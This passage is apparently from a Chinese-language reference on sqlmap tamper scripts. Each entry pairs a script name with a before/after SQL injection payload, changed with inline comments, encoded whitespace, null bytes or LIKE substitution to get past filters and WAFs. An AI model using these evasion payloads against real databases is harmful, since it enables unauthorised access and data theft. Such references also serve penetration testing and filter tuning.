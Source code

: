 适用数据库：MySQL  
测试通过数据库：MySQL 5.0  
作用：使用内联注释方式`（/*!00000*/）`进行注入  
使用脚本前：`tamper('1 AND 2>1--')`  
使用脚本后：`1 /*!00000AND 2>1*/--`

#### **space2mysqldash.py**

适用数据库：MySQL、MSSQL  
作用：将空格替换为 `--` ，并追随一个换行符  
使用脚本前：`tamper('1 AND 9227=9227')`  
使用脚本后：`1--%0AAND--%0A9227=9227`

#### **bluecoat.py**

适用数据库：Blue Coat SGOS  
测试通过数据库：MySQL 5.1,、SGOS  
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`  
使用脚本前：`tamper('SELECT id FROM users where id = 1')`  
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

#### **versionedkeywords.py**

适用数据库：MySQL  
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11  
作用：注释绕过  
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`  
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

#### **halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1  
测试通过数据库：MySQL 4.0.18/5.0.22  
作用：在每个关键字前添加mysql版本注释  
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`  
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

#### **space2morehash.py**

适用数据库：MySQL >= 5.1.13  
测试通过数据库：MySQL 5.1.41  
作用：将空格替换为`#`，并添加一个随机字符串和换行符  
使用脚本前：`tamper('1 AND 9227=9227')`  
使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

#### **apostrophenullencode.py**

适用数据库：ALL  
作用：用非法双字节Unicode字符替换单引号  
使用脚本前：`tamper("1 AND '1'='1")`  
使用脚本后：`1 AND %00%271%00%27=%00%271`
